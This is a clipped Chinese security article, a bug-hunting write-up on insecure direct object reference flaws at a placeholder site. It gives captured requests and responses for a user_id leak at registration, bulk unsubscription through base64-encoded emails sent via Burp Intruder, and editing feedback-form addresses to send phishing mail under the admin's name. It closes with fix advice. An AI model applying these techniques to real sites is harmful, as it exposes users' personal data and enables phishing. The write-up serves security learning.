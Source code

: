 ```yaml
---
title: 挖洞经验 | 在账户注册和意见反馈处发现越权漏洞（IDOR) - FreeBuf 网络安全行业门户
url: https://www.freebuf.com/vuls/223987.html
clipped_at: 2024-03-14 11:51:21
category: default
tags: 
 - www.freebuf.com
---
```



# 挖洞经验 | 在账户注册和意见反馈处发现越权漏洞（IDOR) - FreeBuf 网络安全行业门户

**![01.png](assets/1710388281-10d1e0c67b850114b0fdad8222109d0b.png)**

**今天分享几点关于越权漏洞（IDOR）的发现经验，这类型漏洞通常发生在 Web 应用提供给用户基于输入的对象中，漏洞造成的影响将会致使攻击者可以绕过授权限制，访问到目标系统内其它不应该被访问到的资源或数据。**

## IDOR 概述

简单来说，假设目标网站有两个用户 U1 和 U2，两者账户中都存储有个人文件，但只有自己才有权限查看访问到这些文件。打个比方，也即 U1 只能访问到自己的账户文件，不可访问 U2 的账户文件。

某天，U1 访问他自己账户中的文件 blahBlah.pdf，具体链接如下：

> [https://whocare.com/file/23](https://whocare.com/file/23)

上述链接中假设最后的数字 23 是与自己账户对应的一个参数，但好奇的 U1 用户却随手修改了这个数字参数，把它改成了 50，然后发起了访问，链接如下：

> [https://whocare.com/file/50](https://whocare.com/file/50)

但正好这一改动，U1 在自己账户权限内竟然看到了 U2 账户的文件。

所以问题出在哪里呢？原因在于 Web 应用在基于用户输入的直接对象访问机制中，缺少了对访问对象的身份验证措施。如何来发现 IDOR 漏洞？其实，IDOR 就像 XSS 一样存在广泛，只要你清楚目标 Web 应用的设计架构或工作流，非常容易发现。这里我分享几点 IDOR 漏洞的发现经验，仅供参考。

## 在用户注册处发现 IDOR 漏洞

在网站注册机制中发起数据包拦截，目标网站 whocare.com 调用了一个账户注册 API，Burp 捕获的账户注册请求数据包如下：

```bash
POST /analytics/index.php/plus/registerportal?user_id=43657&key=344246b382b1d70c25ea14ed6f2760c6 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 239
Host: api.whocare.com
Connection: close
Accept-Encoding: gzip, deflate
User-Agent: okhttp/3.4.1
email=test@whocare.com&password=as&username=&firstname=tvbb&lastname=gvcz&mobile=&country=test&city=hfhdggd&birthday_full=&gender=fknefjn
```

可以看到，在上述数据包的 POST 操作中包含了 user\_id 参数，这里出于测试目的，我们把它修改为其它字符串随机值，然后服务端响应回来的消息中有了这样的提示：用户已经存在！更为重要的是，服务端响应回来的信息中包含了与该注册用户相关的姓名、邮箱、联系地址等等。响应数据包如下：

```bash
HTTP/1.1 200 OK
Date: Tue, 05 Mar 2019 12:53:30 GMT
Content-Type: text/html
Connection: close
Set-Cookie: __cfduid=dc4d54bb59b5c4a2c8501e3ed1cd5952b1551790409; expires=Wed, 04-Mar-20 12:53:29 GMT; path=/; domain=.whocare.com; HttpOnly
Vary: Accept-Encoding
Server: cloudflare
CF-RAY: 4b2c3badddb3ce21-LHR
Content-Length: 311
{"error":"exist","user":[{"id":"34666","username":"admin","firstname":"Pappu","lastname":"Rahul","email":"admin@whocare.com","mobile":null,"gender":"male","birthday":null,"country":"","city":null,"address":null,"address1":[Reducted],"postcode":[Reducted],"ip_address":[Reducted],"app_id":[Reducted]}]}
```

而且通过这样，我甚至可以通过暴力枚举用户参数 user\_id，大量获取目标网站用户信息，当然其中也会包含管理员信息。

## 在邮件订阅（Subscribe）列表中发现 IDOR 漏洞

同样，我们以 whocare.com 为目标网站，它为新用户提供了一个订阅选项，可以通过用户邮件方式获取一些网站的最新资讯。而在用户设置面板中，存在一个订阅取消按钮，当点击该按钮之后，它会向注册用户发送一个取消订阅的通知链接，URL 如下：

> [http://whocare.com/deleteNewsletter/dGVzdGVybWFpbEBnbWFpbC5jb20=](http://whocare.com/deleteNewsletter/dGVzdGVybWFpbEBnbWFpbC5jb20=)

仔细看可知道，它结尾包含了一个 base64 编码的字符串，解密后 dGVzdGVybWFpbEBnbWFpbC5jb20= : testermail@gmail.com，这里看似这种动作未对请求做身份校验，所以，在此我们需要其他注册用户的绑定邮箱来进行测试，看看是否能对其他注册用户执行订阅取消操作。

这里的一种攻击可能性为：我们要以收集大量目标网站注册用户的邮箱，然后分别把它们进行 base64 编码，形成字典，放到 Burp 的 Intruder 模块中，进行自动化攻击测试，这样一来，就形成了对批量用户的订阅取消动作。这里可以综合利用上述的注册处 IDOR 漏洞来形成更大的威胁。  

## 在意见反馈的邮件转发处发现 IDOR 漏洞

比如还是在 whocare.com 中，如果用户向目标网站提交意见反馈（Feedback）的数据包如下：

```bash
POST /Services/PostContactUsEmail HTTP/1.1
Host: www.whocare.com
Connection: close
Content-Length: 327
Accept: */*
Origin: https://www.whocare.com
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/67.0.3396.87 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Referer: https://www.whocare.com/feedback
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: [REDUCTED]
ContactUs_Name_Txt=hiname&ContactUs_Email_Txt=attacker@gmail.com&ContactUs_MessageType_Txt=%D8%A7%D8%B3%D8%AA%D9%81%D8%B3%D8%A7%D8%B1&ContactUs_Department_Txt=feedback@whocare.com%23%D8%A7%D9%84%D8%AF%D8%B9%D9%85+%D8%A7%D9%84%D9%81%D9%86%D9%8A&ContactUs_MessageBody_Txtthis+is+the+comment&ContactUs_Captcha_Txt=QBAQLU
```

仔细看其中提交的参数，它包含了以下几个重要信息：

> ContactUs\_Department\_Txt= 将会收到反馈意见的邮箱地址
> 
> ContactUs\_Email\_Txt= 当前用户用来发送反馈意见的邮箱地址
> 
> ContactUs\_MessageBody\_Txt= 用户发送的反馈意见信息

上面有两个地方的邮箱地址我们可以进行修改，那就是：

> ContactUs\_Department\_Txt=admin@whocare.com
> 
> ContactUs\_Email\_Txt = 任何你想发送邮件的用户邮箱地址，或者恶意一点，把它设为网站所有用户邮箱地址。

这样一来，所有网站用户都会收到一封来自管理员邮箱的邮件，这可以用来作为钓鱼攻击的一个切入点。

## IDOR 的修复建议

1、请求或其它操作动作中实施合理的访问权限控制措施；

2、对涉及用户相关的参数使用强加密或随机数生成，不要使用如 id=3 这种简单直白的数字形式；

3、更多防护措施请[点此参考 OWASP 官方说明](https://cheatsheetseries.owasp.org/cheatsheets/Insecure_Direct_Object_Reference_Prevention_Cheat_Sheet.html)。
